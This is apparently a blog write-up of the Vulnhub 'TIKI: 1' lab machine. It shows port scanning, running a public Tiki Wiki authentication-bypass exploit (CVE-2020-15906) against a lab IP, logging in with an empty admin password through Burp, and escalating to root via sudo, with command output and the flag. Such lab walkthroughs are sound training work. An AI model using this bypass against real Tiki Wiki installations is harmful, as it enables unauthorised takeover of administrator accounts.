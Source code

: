 ```yaml
---
layout: post
title:  "Vulnhub - TIKI: 1"
date:   2020-12-19 19:00:00 +1100
category: hacking
---
```


## Introduction
*Oh no our webserver got compromised. The attacker used an 0day, so we dont know how he got into the admin panel. Investigate that.  
This is an OSCP Prep Box, its based on a CVE I recently found. Its on the OSCP lab machines level.*

This box is on the [NetSecFocus Admin list](https://docs.google.com/spreadsheets/d/1dwSMIAPIam0PuRBkCiDI88pU3yzrqqHkDtBngUHNCw8/edit#gid=0) of OSCP-like machines. It's [TIKI: 1](https://www.vulnhub.com/entry/tiki_1,525/) from vulnhub. 

## Ports
Ports are SSH, HTTP and SMB (139 and 445) but given the introduction it sounds like the webserver is our target. Also, nmap said:

>80/tcp  open  http        syn-ack ttl 64 Apache httpd 2.4.41 ((Ubuntu))
| http-methods:   
|_  Supported Methods: GET POST OPTIONS HEAD  
| http-robots.txt: 1 disallowed entry   
|_/tiki/  

Let's start there.

## TIKI
Tiki is [tiki wiki](https://info.tiki.org/HomePage) and it's not hard to find the recent CVE for it; [CVE-2020-15906](https://github.com/S1lkys/CVE-2020-15906), made by the machine creator. Reckon it's what we want?

## Searchsploit
It's on searchsploit:

>Tiki Wiki CMS Groupware 21.1 - Authentication Bypass                             | php/webapps/48927.py

We can mirror this and run it:

{% highlight shell %}
root@kali:/opt/vulnhub/tiki# python3 48927.py 192.168.1.168
Admin Password got removed.
Use BurpSuite to login into admin without a password 
{% endhighlight %}

*The vulnerability is that an attacker is able to brute-force a Tiki Wiki admin account until it is locked after 50 invalid login attempts. They can then use an empty password to authenticate as the administrator and gain full account access.*

The webpage won't allow you to leave the password field blank, but it's fine with Burpsuite so that's where it comes in. Then you can do *show response in browser* and we are logged in as admin.

## Enumerate
I looked around for a way to upload a shell, but there doesn't appear to be one (that I could find). I could upload a shell as a ZIP and unzip it, but could only download the resulting file and not run it. Fortunately our box user has left his credentials on the site to find.

>http://192.168.1.168/tiki/tiki-index.php?page=Credentials

## Privesc
We can SSH in as our user, and then he is a sudoer so it's all over:

{% highlight shell %}
silky@ubuntu:~$ sudo -l
[sudo] Passwort für silky: 
Passende Defaults-Einträge für silky auf ubuntu:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

Der Benutzer silky darf die folgenden Befehle auf ubuntu ausführen:
    (ALL : ALL) ALL
silky@ubuntu:~$ sudo su
root@ubuntu:/home/silky# cd /root
root@ubuntu:~# ls -lash
root@ubuntu:~# cat flag.txt 

ASCII art removed
                                                    
You did it ^^
I hope you had fun.
Share your flag with me on Twitter: S1lky_1337


flag:88d8120f434c3b4221937a8cd0668588
root@ubuntu:~# id;hostname
uid=0(root) gid=0(root) Gruppen=0(root)
ubuntu

{% endhighlight %}

BTW; Google translate says:

>Der Benutzer silky darf die folgenden Befehle auf ubuntu ausführen

means

>The user silky is allowed to execute the following commands on ubuntu


